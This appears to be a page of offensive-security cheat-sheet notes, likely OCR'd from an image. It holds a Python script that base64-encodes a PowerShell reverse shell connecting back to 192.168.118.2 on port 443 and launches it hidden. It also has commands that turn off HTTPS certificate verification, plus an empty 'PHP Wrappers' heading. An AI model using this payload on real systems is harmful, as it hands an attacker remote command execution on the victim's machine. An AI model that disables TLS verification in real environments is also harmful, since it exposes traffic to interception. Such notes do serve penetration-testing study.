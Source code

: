 #### SSL Error
Run these three commands:
1. `export PYTHONWARNINGS="ignore:Unverified HTTPS request"`
2. `export REQUESTS_CA_BUNDLE=""`
3. `export CURL_CA_BUNDLE=""`
	1. Note that these variables are set temporarily with that terminal session, but could be reversed by repeating the command with `unset` instead of `export`


#### Python Script to generate Powershell reverse shell
```
import sys
import base64

payload = '$client = New-Object

System.Net.Sockets.TCPClient("__**192.168.118.2**__",__**443**__);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```


### PHP Wrappers
